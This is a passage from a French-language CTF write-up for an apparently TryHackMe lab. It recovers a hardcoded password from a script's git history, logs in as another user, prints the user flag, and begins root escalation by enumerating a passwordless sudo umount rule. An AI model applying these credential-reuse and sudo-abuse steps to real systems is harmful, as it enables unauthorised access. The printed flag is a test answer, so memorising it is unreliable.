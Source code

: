 ```bash
-            print("Login Failed")
-            break
```

En regardant les modification avec git show on voit le code source du scripte.   
Dans le code source du scripte il y un mode de passe, si on le tape on a un shell.  
Le mot de passe est : slowroastpork

```bash
tux@cchq:/home/varg/cooctOS_src$ sudo -u varg /home/varg/CooctOS.py

 ██████╗ ██████╗  ██████╗  ██████╗████████╗ ██████╗ ███████╗
██╔════╝██╔═══██╗██╔═══██╗██╔════╝╚══██╔══╝██╔═══██╗██╔════╝
██║     ██║   ██║██║   ██║██║        ██║   ██║   ██║███████╗
██║     ██║   ██║██║   ██║██║        ██║   ██║   ██║╚════██║
╚██████╗╚██████╔╝╚██████╔╝╚██████╗   ██║   ╚██████╔╝███████║
 ╚═════╝ ╚═════╝  ╚═════╝  ╚═════╝   ╚═╝    ╚═════╝ ╚══════╝

                       LOADING
�===========================================================]
[  OK  ] Cold boot detected. Flux Capacitor powered up
[  OK  ] Mounted Cooctus Filesystem under /opt
[  OK  ] Finished booting sequence
CooctOS 13.3.7 LTS cookie tty1

cookie login: varg
Password: slowroastpork

varg@cchq:/home/varg/cooctOS_src$ cat ../user.txt
THM{3a33063a4a8a5805d17aa411a53286e6}
```

On met les bons identiants est on a un shell.  
On lit le fichier user.txt et on a le flag.  
Le flag est : THM{3a33063a4a8a5805d17aa411a53286e6}  

**Get full root privileges**

```bash
varg@cchq:/home/varg/cooctOS_src$ sudo -l
Matching Defaults entries for varg on cchq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User varg may run the following commands on cchq:
    (root) NOPASSWD: /bin/umount
```

La configuration sudo nous permet d'exécuter /bin/unmount sans mot de passe avec les droits root.  

```bash
varg@cchq:/home/varg/cooctOS_src$ mount | grep opt
/dev/mapper/ubuntu--vg-ubuntu--lv on /opt/CooctFS type ext4 (rw,relatime,data=ordered)
```
